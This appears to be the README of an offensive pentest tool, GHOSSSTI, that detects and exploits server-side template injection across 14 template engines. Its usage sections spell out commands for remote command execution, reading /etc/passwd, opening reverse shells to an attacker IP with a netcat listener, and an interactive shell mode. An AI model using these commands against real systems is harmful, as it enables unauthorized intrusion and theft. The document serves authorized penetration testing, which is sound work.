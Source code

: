 # 👻 GHOSSSTI
## Ghost Ops Server-Side Template Injection Tool

**Advanced SSTI Detection, Identification & Exploitation Framework**

*For Ghost Ops Security - Authorized Penetration Testing Only*
*ghostops-security.com*
```
                    👻 GHOSSSTI 👻
     Ghost Ops Server-Side Template Injection
```

## Overview

GHOSSSTI is a comprehensive SSTI vulnerability scanner and exploitation framework supporting 14+ template engines. Built by Ghost Ops Security for professional penetration testing.

## Features

✅ 14+ Template Engine Support  
✅ Automatic Detection & Identification  
✅ Remote Code Execution (RCE)  
✅ Reverse Shell Generation  
✅ Interactive Command Mode  
✅ Proxy Support (Burp/ZAP)  
✅ Full Authentication Support  

## Quick Start

```bash
# Install
pip3 install -r requirements.txt
chmod +x ghosssti.py

# Basic scan
./ghosssti.py -u "http://target.com/page" -p name

# RCE
./ghosssti.py -u "http://target.com/page" -p name --exploit-cmd "whoami"

# Reverse shell
./ghosssti.py -u "http://target.com/page" -p name --exploit-shell 10.10.14.5 4444

# Interactive
./ghosssti.py -u "http://target.com/page" -p name --interactive
```

## Supported Engines

| Engine | Language | Framework |
|--------|----------|-----------|
| Jinja2 | Python | Flask, Django |
| Twig | PHP | Symfony |
| Freemarker | Java | Spring |
| Velocity | Java | Apache |
| Smarty | PHP | Legacy |
| Mako | Python | Pyramid |
| Pug/Jade | Node.js | Express |
| ERB | Ruby | Rails |
| Tornado | Python | Tornado |
| Django | Python | Django |
| Handlebars | Node.js | Express |
| Thymeleaf | Java | Spring Boot |
| Nunjucks | Node.js | Mozilla |
| Jade | Node.js | Legacy |

## Usage

### Detection
```bash
# Specific parameter
./ghosssti.py -u "http://target.com/page" -p username

# Auto-detect
./ghosssti.py -u "http://target.com/search"

# POST method
./ghosssti.py -u "http://target.com/api" -p content -m POST

# Through Burp
./ghosssti.py -u "http://target.com/page" -p name --proxy http://127.0.0.1:8080
```

### Authentication
```bash
# Cookies
./ghosssti.py -u "http://target.com/page" -p name -c "session=abc123"

# Bearer token
./ghosssti.py -u "http://target.com/page" -p name \
  -H "Authorization: Bearer TOKEN"

# Multiple
./ghosssti.py -u "http://target.com/page" -p name \
  -c "session=abc" -H "X-API-Key: secret"
```

### Exploitation
```bash
# Command execution
./ghosssti.py -u "http://target.com/page" -p name --exploit-cmd "id"
./ghosssti.py -u "http://target.com/page" -p name --exploit-cmd "cat /etc/passwd"

# Reverse shell (start nc -lvnp 4444 first)
./ghosssti.py -u "http://target.com/page" -p name --exploit-shell YOUR_IP 4444
```

### Interactive Mode
```bash
./ghosssti.py -u "http://target.com/page" -p name --interactive
```

Commands:
```
SSTI> cmd id
SSTI> cmd cat /etc/passwd
SSTI> shell 10.10.14.5 4444
SSTI> quit
```

## Command Reference

**Required:**
- `-u, --url URL` - Target URL

**Optional:**
- `-p, --parameter PARAM` - Parameter (auto-detect if omitted)
- `-m, --method {GET,POST}` - HTTP method
- `-d, --data DATA` - POST data
- `-H, --headers HEADERS` - Custom headers
- `-c, --cookies COOKIES` - Cookies
- `--proxy URL` - Proxy URL
- `--timeout SEC` - Timeout
- `--threads NUM` - Threads

**Exploitation:**
- `--exploit-cmd CMD` - Execute command
- `--exploit-shell IP PORT` - Reverse shell
- `--interactive` - Interactive mode
- `--detect-only` - Detection only

**Utility:**
- `--generate-payloads FILE` - Generate payloads

## Workflow

```bash
# 1. Discovery
./ghosssti.py -u "http://target.com/search" --proxy http://127.0.0.1:8080

# 2. Verify
./ghosssti.py -u "http://target.com/page" -p query --detect-only

# 3. Exploit
./ghosssti.py -u "http://target.com/page" -p query --exploit-cmd "id"

# 4. Interactive
./ghosssti.py -u "http://target.com/page" -p query --interactive
```

## Legal Notice

⚠️ **AUTHORIZED USE ONLY**

This tool is for:
- Professional pentesting (written authorization)
- Bug bounty programs (in scope)
- Security research (controlled environments)
- CTF competitions

Ghost Ops Security assumes no liability for misuse.

## Pro Tips

1. **Always use proxy** for traffic capture and documentation
2. **Start with --detect-only** for safer testing
3. **Document everything** - screenshots and output
4. **Generate payloads** for manual testing with other tools

## Troubleshooting

**No detection?**
- Increase timeout: `--timeout 30`
- Try different parameters
- Check in Burp for filtering

**Detection but no exploit?**
- Use `--interactive` mode
- Try alternative payload chains
- Engine may have restrictions

## Version

v1.0 - Initial Release
- 14 template engines
- Full detection & exploitation
- Interactive mode

---

👻 **Ghost Ops Security** - Professional Penetration Testing Tools

*Always obtain proper authorization before testing!*
